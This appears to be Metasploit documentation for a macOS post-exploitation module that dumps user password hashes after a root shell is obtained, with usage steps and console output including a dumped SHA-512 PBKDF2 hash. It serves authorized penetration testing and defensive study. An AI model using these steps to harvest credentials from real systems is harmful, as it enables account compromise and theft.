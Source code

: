 ## Vulnerable Application

This module dumps SHA-1, LM, NT, and SHA-512 Hashes on OSX. Supports versions 10.3 to 10.14.

## Verification Steps

  1. Start msfconsole
  2. Get a root privileged shell
  3. Do: ```use post/osx/gather/hashdump```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should see hashes dumped and stored to creds (if db is connected)

## Options

  **MATCHUSER**
  A regex to run against usernames.  Only matched usernames will have their hashes dumped.

## Scenarios

### User level shell on OSX 10.14.4

```
msf5 post(osx/gather/hashdump) > run

[-] Post aborted due to failure: bad-config: Insufficient Privileges: must be running as root to dump the hashes
[*] Post module execution completed
```

### Root level shell on OSX 10.14.4

```
msf5 post(osx/gather/hashdump) > run

[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user h00die...
[+] SHA-512 PBKDF2:h00die:$ml$67012$52a3da29923ab1680ae7c28b40a3ba7c2386c679af0392011f706c4ec2a22475$5c935f59a173d25bd4ed5cf59464930153198ea28b70d1e4bb5fe5e39828bec8347419dc53f0f0d93f08399f30b56adcd0f9a6f6e834ba33cba58d6b35fd1021bd81e63edf2a5b2265d8c4b7908d9bcfe127cbcd3c2092d2ab58f1b7a16dc3e11e0d5a7b027c254f3f91fdeb5acc92bcf5a3cc033319f5209f635c0494854a2e
[*] Credential saved in database.
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Attempting to grab shadow for user nobody...
[*] Attempting to grab shadow for user root...
[*] Attempting to grab shadow for user daemon...
[*] Post module execution completed
```
